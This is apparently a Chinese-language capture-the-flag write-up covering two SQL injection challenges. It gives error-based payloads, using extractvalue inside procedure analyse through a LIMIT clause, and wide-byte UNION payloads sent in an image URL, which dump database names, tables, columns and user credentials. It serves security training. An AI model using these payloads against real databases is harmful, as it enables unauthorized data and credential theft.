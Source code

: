 	id,title_1,content_1

## 到底能不能回显

关于`limit`命令的注入。

得到数据库名称：
```
procedure analyse(extractvalue(rand(), concat(0x3a,(select group_concat(0x7e, schema_name ,0x7e) from information_schema.schemata))),1)%23&num=1
```

	XPATH syntax error: ':~information_schema~,~mydbs~,~t' 

`mydbs` 0x6d79646273

procedure analyse(extractvalue(rand(), concat(0x3a,(select group_concat(0x7e, table_name,0x7e) from information_schema.tables where table_schema=0x6d79646273 ))),1)%23&num=1

	XPATH syntax error: ':~article~,~user~' 

得到table name:

```
procedure analyse(extractvalue(rand(), concat(0x3a,(select group_concat(0x7e, table_name,0x7e) from information_schema.tables where table_schema=database() limit 1,1))),1)%23&num=1
```

`user`二级制`0x75736572`

由于`group_concat`得出的结果有长度限制，只能limit一个字段一个字段泄露。
```
procedure analyse(extractvalue(rand(), concat(0x3a,(select concat(0x7e, column_name, 0x7e) from information_schema.columns where table_name=0x75736572 limit 2,1))),1)%23&num=1
```

	四个字段 id,username,password,lastloginIP

获取各个字段
```
procedure analyse(extractvalue(rand(), concat(0x3a,(select concat(0x7e,username,0x3a, password, 0x7e) from user limit 2,1))),1)%23&num=1
```

	XPATH syntax error: ':~flag:myflagishere~'

## 邂逅

从图片请求入手，不能在浏览器通过正常请求测试是否有注入点，应当在BurpSuite中操作。

```
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27
```

```
# 判断列，直到5报错
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20order%20by%205%23
# 判断显示位, 回显3
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,3,4%20%23
# 获取当前数据库的表名article,pic 
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,concat(group_concat(distinct+table_name)),4%20%20from%20information_schema.tables%20where%20table_schema=database()%23
# 查找article的字段，'article'=>0x61727469636c65
## 得到 id,title,content,others 
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,concat(group_concat(column_name)),4%20%20from%20information_schema.columns%20where%20table_name=0x61727469636c65%23
## 得到数据
/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1.jpg%bf%27%20union%20select%201,2,concat(group_concat(title,content),0x3a),4%20%20from%20article%23
未得到有用信息
```